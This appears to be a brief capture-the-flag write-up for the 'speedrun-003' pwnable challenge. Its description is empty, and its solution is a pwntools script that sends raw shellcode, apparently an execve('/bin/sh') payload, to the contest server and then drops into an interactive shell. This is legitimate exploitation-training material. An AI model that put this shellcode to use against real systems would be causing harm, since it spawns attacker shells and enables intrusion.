 # **speedrun-003**

#### tag : pwnable, shellcode

-----------------------------------------------

#### Description

-----------------------------------------------

#### Solution

```python
from pwn import *

r = remote('speedrun-003.quals2019.oooverflow.io', 31337)

sh = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05\x01\x01\x56'

r.recvuntil('drift\n')
r.send(sh)
r.interactive()
```

